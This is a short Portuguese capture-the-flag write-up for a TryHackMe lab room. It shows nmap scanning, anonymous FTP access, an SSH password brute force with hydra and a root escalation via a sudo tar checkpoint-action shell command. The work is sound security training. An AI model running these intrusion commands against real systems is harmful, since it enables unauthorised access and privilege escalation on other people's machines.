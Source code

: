 https://tryhackme.com/r/room/cowboyhacker

Primeiramente iniciamos com um nmap
```
nmap -sV [IP]
```
Com isso descobrimos 3 portas abertas
![[Pasted image 20240828080823.png]]
E para entrar o ftp precisamos fazer
```
ftp [IP]
```
E para logar iremos, logar com o **anonymous**
E com isso temos acesso a 2 arquivos e podemos baixar passa nossa maquina com o **get**

No arquivo **task.txt** achamos um nick que pode ser usado no login do ssh
No arquivo **locks.txt** achamos varias senhas que podem ser utilizados no hydra para fazer o brute force

Utilizando o hydra para o brute force
```
hydra -l lin -P locks.txt ssh://10.10.196.217
```

Com isso temos acesso a senha e ela é:
![[Pasted image 20240828081152.png]]

Após isso podemos logar no ssh
```
ssh [user]@[IP]
```

E pegamos a primeira flag user.txt

E precisamos achar a outra, mas temos que escalar privilegio
```
sudo -l
```
Podemos descobrir executaveis que podem ser rodar sem root e achamos o **bin/tar**
Indo no site gtfobins podemos procurar para escalar privilegio
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Com isso escalamos privilegio e temos a flag **root.txt**